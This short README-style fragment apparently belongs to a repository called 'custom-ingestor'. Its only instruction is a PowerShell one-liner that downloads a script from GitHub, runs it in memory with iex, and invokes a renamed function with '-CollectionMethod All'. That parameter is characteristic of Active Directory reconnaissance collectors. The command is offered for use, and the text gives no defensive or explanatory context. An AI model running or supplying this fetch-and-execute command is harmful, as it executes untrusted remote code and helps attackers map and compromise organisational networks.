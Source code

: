### Run this script with

iex(new-object net.webclient).downloadstring("https://raw.githubusercontent.com/f3ci/custom-ingestor/master/2.ps1");lol -CollectionMethod All
